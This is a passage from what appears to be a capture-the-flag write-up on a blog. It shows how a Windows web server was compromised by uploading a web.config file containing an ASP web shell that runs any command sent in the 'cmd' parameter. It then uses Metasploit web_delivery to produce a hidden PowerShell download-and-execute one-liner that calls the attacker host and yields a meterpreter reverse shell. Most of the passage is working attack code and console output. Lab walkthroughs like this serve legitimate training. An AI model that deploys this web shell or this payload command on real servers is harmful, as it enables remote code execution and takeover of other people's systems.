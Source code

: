 <p>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>
</HTML>
{% endhighlight %}

Upload the "web.config". We get following message.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-09-19/2019-09-18-16-31-36.png)

Then, run the metasploit module "web_delivery".<br>
It launches a meterpreter shell handler and generates a command to be ran on the target server.
{% highlight shell %}
msf5 > use exploit/multi/script/web_delivery 

msf5 exploit(multi/script/web_delivery) > set target 2
target => 2

msf5 exploit(multi/script/web_delivery) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp

msf5 exploit(multi/script/web_delivery) > set lhost 10.10.14.30
lhost => 10.10.14.30

msf5 exploit(multi/script/web_delivery) > set srvhost 10.10.14.30
srvhost => 10.10.14.30

msf5 exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.10.14.30:4444 
[*] Using URL: http://10.10.14.30:8080/HqXxAAziFAQHS3
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -c $c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $c.downloadstring('http://10.10.14.30:8080/HqXxAAziFAQHS3');
{% endhighlight %}

After that, open the "web.config" which we uploaded and there should be a form which we can run any Windows command.<br>
By running provided command from "web_delivery", we can achieve a meterpreter shell.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-09-19/2019-09-18-21-13-01.png)
{% highlight shell %}
msf5 exploit(multi/script/web_delivery) > [*] 10.10.10.93      web_delivery - Delivering Payload (2121) bytes
[*] Sending stage (206403 bytes) to 10.10.10.93
[*] Meterpreter session 1 opened (10.10.14.30:4444 -> 10.10.10.93:49164) at 2019-09-18 21:12:31 +0300
{% endhighlight %}

